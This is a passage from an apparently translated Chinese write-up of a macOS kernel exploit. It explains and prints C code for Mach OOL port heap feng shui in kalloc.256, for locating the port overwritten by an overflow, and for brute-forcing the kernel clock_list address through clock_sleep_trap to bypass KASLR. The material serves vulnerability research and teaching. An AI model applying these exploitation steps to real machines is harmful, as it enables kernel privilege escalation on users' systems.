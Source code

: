 ```
    printf("[+] OOL Port Fengshui Successn");
    return ool_ports;
`}`
```

声明要在 mach_msg() 中使用的消息结构（ool_send_msg, ool_recv_msg），以便继续执行上面列出的步骤。此时，为了将数据放在 kalloc.256 中，msg_ool_ports.count 被设置为 32。

上面的消息不应该太大或太小，它应该由大小合适的成员组成。在发送-接收-重传过程后，Port 风水准备完成，OS 已经准备好使用该区域。此时，溢出会覆盖 ipc_port，攻击者所覆盖数据的地址是已知的，并且可以随意操作数据以使攻击更容易。

**<br>**

**（3）查找操作数据**

重传的过程会导致端口周围发生溢出，我们必须找到该端口。引用对象是端口使用的描述符的地址成员（在前面的步骤中填充了伪造数据），我们需要验证端口是否已更改以及端口是否有效。

使用的代码如下：



```
mach_port_t* find_manipulation_port(mach_port_t* port_list)`{`
    for(int i = 0; i &lt; USE_PORT_END; i++)`{`
        send_msg.msg_head.msgh_local_port = port_list[i];
        kern_return_t send_result = mach_msg(&amp;send_msg.msg_head, MACH_RCV_MSG | MACH_MSG_OPTION_NONE, 0, sizeof(struct ool_send_msg), port_list[i], MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
        for(int k = 0; k &lt; send_msg.msg_body.msgh_descriptor_count; k++)`{` // traversing ool descriptors
            mach_port_t* tmp_port = send_msg.msg_ool_ports[k].address;
            if(tmp_port[0] != MACH_PORT_DEAD &amp;&amp; tmp_port[0] != NULL)`{` // is Manipulated? (compare 8 bytes is enough. cuz of 8 bytes overflow)
                printf("[+] Found manipulated port! %dth port : %dth descriptor =&gt; %llxn", i, k, tmp_port[0]);
                return tmp_port[0];
            `}`
        `}`
    `}`
    printf("[-] Error in Find Manipulated Portn");
    exit(1);
`}`
```

**<br>**

**（4）获取内核地址**

在 macOS 中, 内存保护技术使用 KASLR 随机化内核地址。因此，如果您有一个端口地址并且可以执行任意操作，则可以使用 clock_sleep_trap() 将 clock_list 动态加载到内核中。

使用的代码如下:



```
uint64_t get_clock_list_addr(uint64_t fake_port, mach_port_t* manipulated_port)`{`
    for(uint64_t guess_clock_addr = 0xffffff8000200000; guess_clock_addr &lt; 0xffffff80F0200000; guess_clock_addr++)`{`
        *(uint64_t *)(fake_port + TASK_GAP_IN_IPC_OBJ) = guess_clock_addr; // Traverse address
        *(uint64_t *)(fake_port + 0xa0) = 0xff;
        if(clock_sleep_trap(manipulated_port, 0, 0, 0, 0) == KERN_SUCCESS)`{`
            printf("[+] found clock_list addr : %llxn", guess_clock_addr);
            return (guess_clock_addr);
        `}`
    `}`
    printf("[-] Find clock_list addr failed.n");
    exit(1);
`}`
```

